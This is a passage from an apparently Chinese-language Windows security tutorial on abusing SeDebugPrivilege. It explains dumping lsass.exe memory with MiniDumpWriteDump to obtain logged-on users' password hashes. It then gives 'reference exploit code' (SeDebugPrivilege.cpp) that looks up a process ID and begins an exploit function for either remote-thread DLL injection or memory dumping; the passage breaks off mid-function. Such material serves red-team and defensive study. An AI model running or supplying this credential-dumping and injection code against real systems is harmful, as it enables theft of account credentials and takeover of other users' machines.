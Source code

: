 此外，除了远程线程注入的方法，我们还可以使用 `MiniDumpWriteDump()` 等类似的 API 转储 lsass.exe 进程的内存，从而获取已登录用户哈希值，如下所示。

```c++
status = MiniDumpWriteDump(hProcess, dwProcessId, dumpFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
        if (!status)
        {
            wprintf(L"[-] MiniDumpWriteDump Error: [%u].\n", GetLastError());
            return status;
        }
        wprintf(L"[*] Dump the memory of %ws process into %ws.\n", lpProcessName, outputFile);
```

下面给出可供参考的利用代码，首先通过 `AdjustTokenPrivileges()` 函数为当前进程开启 SeDebugPrivilege 特权，然后通过上述两种方法滥用该特权。如果执行时 `-e` 参数为 “Injection”，则执行远程线程注入，获取权限。如果 `-e` 参数为 “Mimidump”，则可以转储指定进程的内存。

- SeDebugPrivilege.cpp

```c++
#include "Native.h"
#include <iostream>
#include <DbgHelp.h>
#include <tlhelp32.h>

#pragma comment(lib, "Dbghelp.lib")

DWORD GetProcessIdByName(LPCWSTR lpProcessName)
{
    // Create toolhelp snapshot.
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process;
    ZeroMemory(&process, sizeof(process));
    process.dwSize = sizeof(process);

    // Walkthrough all processes.
    if (Process32FirstW(hSnapshot, &process))
    {
        do
        {
            // Compare process.szExeFile based on format of name, i.e., trim file path
            // trim .exe if necessary, etc.
            if (_wcsicmp(process.szExeFile, lpProcessName) == 0)
            {
                wprintf(L"[*] Got the PID of %ws: %d.\n", lpProcessName, process.th32ProcessID);
                return process.th32ProcessID;
            }
        } while (Process32NextW(hSnapshot, &process));
    }

    CloseHandle(hSnapshot);
    return 0;
}

BOOL ExploitSeDebugPrivilege(LPCWSTR expType, LPCWSTR lpProcessName, LPCWSTR lpDllFileName, LPCWSTR lpOutputFile)
{
    BOOL status = FALSE;
    DWORD dwProcessId;
    CLIENT_ID clientId = { 0 };
    OBJECT_ATTRIBUTES ObjectAttributes;
    HANDLE hProcess = NULL;
    HANDLE hThread = NULL;
    SIZE_T dwSize = 0;
    LPVOID lpDllAddr = NULL;
    FARPROC pLoadLibraryProc = NULL;
    HANDLE dumpFile;
```